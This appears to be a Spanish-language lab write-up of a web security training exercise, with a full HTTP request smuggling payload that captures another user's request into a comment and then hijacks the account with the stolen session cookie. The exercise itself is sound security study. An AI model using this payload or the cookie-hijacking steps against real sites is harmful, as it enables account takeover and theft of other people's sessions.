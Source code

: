 Continuamos con el laboratorio anterior, donde logramos capturar una petición legítima del siguiente usuario mediante un ataque de HTTP request smuggling. En esta parte, analizamos el contenido del comentario almacenado para extraer la cookie de sesión de la víctima.

Una vez identificamos el valor de la ‘**cookie session**‘ en la petición capturada, la utilizamos para suplantar la identidad del usuario y acceder a su cuenta. Este paso demuestra cómo una simple desincronización entre servidores puede derivar en la total toma de control de una cuenta ajena.

Este ejercicio refuerza la gravedad de las vulnerabilidades de tipo request smuggling y cómo pueden comprometer directamente la privacidad e integridad de los usuarios.

Solucion
ahora ya una vez configurado todo el payload en vamos a cambiar el coment en el csrf hasta el ultimo de esta manera quedaria el payloda y en la seccion de comentarios deberias de ver algo asi
![[Pasted image 20250807221729.png]]
payload (POST / HTTP/1.1

Host: 0a3e0063039f125e80211c3d00870036.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 286

Transfer-Encoding: chunked



0



POST /post/comment HTTP/1.1

Content-Type: application/x-www-form-urlencoded

Cookie: session=tIa5AHKbdB1ecVxlgPyGDgocKZ9PSLFf

Content-Length: 950



csrf=MQz6eTcTy7X1z7RI83NowKPgY689AC5l&postId=1&name=testing&email=omar%40omar.com&website=https%3A%2F%2Fcallate.com&comment=prueba)

entonces copiamos la cookie de session
![[Pasted image 20250807221842.png]]
y modificamos la cookie de session en el login
![[Pasted image 20250807221953.png]]
R9UMrQYOdIskkgFNXMLfJOOIXa0w9S1w 
esperamos y ya esta
![[Pasted image 20250807225421.png]]
